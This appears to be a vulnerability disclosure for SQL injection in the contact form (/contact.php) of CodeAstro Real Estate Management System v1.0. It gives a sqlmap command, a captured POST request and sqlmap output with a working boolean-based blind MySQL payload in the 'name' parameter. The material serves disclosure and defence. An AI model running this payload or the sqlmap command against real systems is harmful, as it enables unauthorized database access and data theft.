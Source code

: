 # SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /contact.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /contact.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
POST /contact.php HTTP/1.1
Host: www.realestate.com
Referer: http://www.realestate.com/contact.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Origin: http://www.realestate.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d4bb5bt4089bi920s8gj8fb0np
Upgrade-Insecure-Requests: 1
Content-Length: 86

name=test&email=test%40test.com&phone=1888888888&subject=1&message=1&send=send+message
```



```
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: name=test' RLIKE (SELECT (CASE WHEN (7077=7077) THEN 0x74657374 ELSE 0x28 END)) AND 'gSai'='gSai&email=test@test.com&phone=1888888888&subject=1&message=1&send=send message
---
```



![image-20250602120132846](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021201969.png)